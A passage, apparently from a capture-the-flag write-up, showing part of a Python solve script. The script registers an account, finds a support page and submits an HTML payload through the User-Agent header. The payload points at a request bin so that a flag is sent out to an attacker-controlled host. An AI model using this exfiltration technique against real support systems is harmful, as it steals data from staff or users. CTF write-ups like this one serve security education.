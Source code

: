 ```python
    register_account(sess, server)
    support_url = get_support(sess, server)
    if support_url.endswith('/'):
        support_url = support_url[:-1]
    print('Support URL: ', support_url)
    payload = open('payload.html').read().replace('\n', ' ')
    payload = payload.replace('{{dest}}', args.requestbin
            ).replace('{{ep}}', server)
    print('Payload is: ', payload)
    post_support_message(sess, support_url, payload)
    print('Sent support message.')


if __name__ == '__main__':
    main()
```
{% endraw %}

The python takes care of registering an account, redirecting to the support
site, logging in there, then sending the payload in the User-Agent header.
Checking the request bin will (after a handful of seconds) show us the flag.
